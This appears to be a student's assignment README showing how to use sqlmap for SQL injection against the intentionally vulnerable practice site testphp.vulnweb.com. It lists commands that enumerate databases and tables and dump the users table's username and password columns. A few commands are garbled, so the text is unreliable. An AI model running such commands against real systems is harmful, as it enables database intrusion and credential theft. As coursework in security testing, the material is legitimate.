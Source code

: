 # Abdullah Baig | 231485698 | Assignment 1

## Installation of `sqlmap`
- Installed ```sqlmap``` on Ubuntu Terminal using ```sudo apt install sqlmap```.


## SQL Injection Attack
- Go to [Vulnweb](https://vulnweb.com)
- Next step is to find a link that makes a request to the database, this link is `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 --dbs` 
<img width="815" alt="ss" src="https://user-images.githubusercontent.com/66818162/198666738-7d5b9820-f761-44c3-86be-7ad9b527bb95.png">

3. We can confirm our request to a SQL DB by appending a quotation at the end and seeing the result ```http://testphp.vulnweb.com/artists.php?artist=1'``` .
4. Now that we have our link and confirmed it uses a SQL based DB we can perform the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs``` to find its databases.
5. Now we can further find tables within these found databases using the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```.
6. We will find 8 tables and focus our attention to the ```users``` table and further use the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` and see the columns within the ```user``` table.
7. Now we will observe 8 columns and target the ```uname``` and ```pass``` column and dump their respective data with the following commands:
   - ```sqlmap -u testpInfoSecAssignment1hp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump``` 
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```
8. We will find both commands result with us finding ```test``` as both the username and password for the admin panel of the website.

With this we have successfully carried out our SQL Injection Attack resulting in us finding the ```username``` and  ```password``` for the admin panel of the website. Observing the sidebar on the website we can click the ```Sign Up``` button use the username and password we have discovered to Log In.

## List Of Commands Executed 📝
1. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs```
2. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```
3. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns``` 
4. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump```
5.  ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```

# Screenshots 📸

## Command #1
<img width="815" alt="Screen Shot 2022-10-28 at 8 03 52 PM" src="https://user-images.githubusercontent.com/66818162/198666738-7d5b9820-f761-44c3-86be-7ad9b527bb95.png">
